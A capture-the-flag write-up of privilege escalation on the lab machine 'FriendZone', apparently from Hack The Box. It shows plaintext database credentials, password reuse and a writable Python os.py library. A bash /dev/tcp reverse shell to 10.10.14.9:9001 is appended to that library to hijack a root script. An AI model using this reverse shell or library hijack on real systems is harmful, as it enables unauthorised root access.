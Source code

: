 # 25 - PrivEsc

# Mysql creds
```
www-data@FriendZone:/var/www$ cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```


# Password Reuse
![](vx_images/3869049613155.png)



# reporter.py

```py
friend@FriendZone:/opt/server_admin$ ls -l
total 4
-rwxr--r-- 1 root root 424 Jan 16  2019 reporter.py
friend@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

Unfortunately this python script doesn't do anything and we don't have write permission on this file


# Writeable python os library
![](vx_images/4554007586490.png)

os.py is writeable if root imports this library we gain arbitrary code execution. As we know from reporter.py os library is imported in there. Let's try to abuse this functionality.


# os.py reverse shell
```
friend@FriendZone:~$ tail -n 1 /usr/lib/python2.7/os.py 
system("bash -c 'bash -i >& /dev/tcp/10.10.14.9/9001 0>&1'")
```

Ddd the system function call to the bottom of the page otherwise it won't work because `system` is defined in this library

# Root shell
![](vx_images/4654216914797.png)



